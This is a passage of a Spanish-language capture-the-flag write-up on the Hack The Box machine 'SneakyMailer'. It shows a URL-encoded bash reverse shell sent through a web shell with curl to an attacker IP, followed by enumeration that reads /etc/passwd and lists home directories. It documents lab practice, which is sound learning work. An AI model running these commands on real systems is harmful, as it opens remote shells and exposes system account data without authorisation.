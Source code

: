 Pero no sucede nada, pasémosla a [URLencode](https://www.urlencoder.org/):

```bash
–» curl -s http://dev.sneakycorp.htb/locurasdices.php?xmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.86%2F4433%200%3E%261%27
```

![bash1reverseshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sneakymailer/bash1reverseshell.png)

PERFECTO, sigamos enumerando.

Vemos varias cositas:

```bash
www-data@sneakymailer:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:,,,:/home/low:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:107:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
postfix:x:108:116::/var/spool/postfix:/usr/sbin/nologin
courier:x:109:118::/var/lib/courier:/usr/sbin/nologin
vmail:x:5000:5000::/home/vmail:/usr/sbin/nologin
developer:x:1001:1001:,,,:/var/www/dev.sneakycorp.htb:/bin/bash
pypi:x:998:998::/var/www/pypi.sneakycorp.htb:/usr/sbin/nologin
www-data@sneakymailer:~$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root  root  4096 May 14 17:10 .
drwxr-xr-x 18 root  root  4096 May 14 05:30 ..
drwxr-xr-x  8 low   low   4096 Jun  8 03:47 low
drwx------  5 vmail vmail 4096 May 19 21:10 vmail
www-data@sneakymailer:~$ 
```
